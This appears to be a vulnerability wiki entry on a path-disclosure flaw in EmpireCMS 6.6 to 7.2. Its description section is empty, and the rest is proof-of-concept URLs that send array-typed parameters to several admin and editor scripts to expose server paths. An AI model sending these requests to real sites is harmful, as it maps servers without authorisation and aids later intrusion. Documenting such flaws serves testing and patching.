 EmpireCMS 6.6-7.2 路径泄漏
==========================

一、漏洞简介
------------

二、漏洞影响
------------

EmpireCMS 6.6-7.2

三、复现过程
------------

### POC :

> EmpireCMS 6.6 :

    http://www.0-sec.org/e/admin/tool/ShowPic.php?url[]=kongxin&pic_height[]=kongxin&pic_width[]=kongxin&picurl[]=kongxin& 

    http://www.0-sec.org/e/action/ListInfo.php?totalnum[]=kongxin&page[]=kongxin&myorder[]=kongxin&orderby[]=kongxin&andor[]=kongxin&ph[]=kongxin&tempid[]=kongxin&line[]=kongxin&endtime[]=kongxin&starttime[]=kongxin&ztid[]=kongxin&ttid[]=kongxin&classid[]=kongxin&mid[]=kongxin&

> EmpireCMS 7.0 :

    http://www.0-sec.org/e/admin/ecmseditor/infoeditor/epage/TranMore.php?InstanceName[]=kongxin&sinfo[]=kongxin&modtype[]=kongxin&infoid[]=kongxin&filepass[]=kongxin&classid[]=kongxin&showmod[]=kongxin&

> EmpireCMS 7.2 :

    http://www.0-sec.org/e/data/ecmseditor/infoeditor/epage/TranFile.php?filesize[]=kongxin&fname[]=kongxin&InstanceName[]=kongxin&filepass[]=kongxin&classid[]=kongxin&type[]=kongxin&showmod[]=kongxin&
